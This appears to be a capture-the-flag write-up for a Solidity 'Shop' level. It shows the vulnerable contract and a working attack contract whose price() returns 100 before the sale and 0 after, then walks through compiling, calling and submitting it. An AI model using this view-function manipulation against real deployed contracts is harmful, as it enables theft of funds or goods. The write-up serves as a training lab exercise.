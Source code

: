# Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

What we need to do is 

1. set `isSold` to true
2. set `price` < 100

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
We can compile this using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the if conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























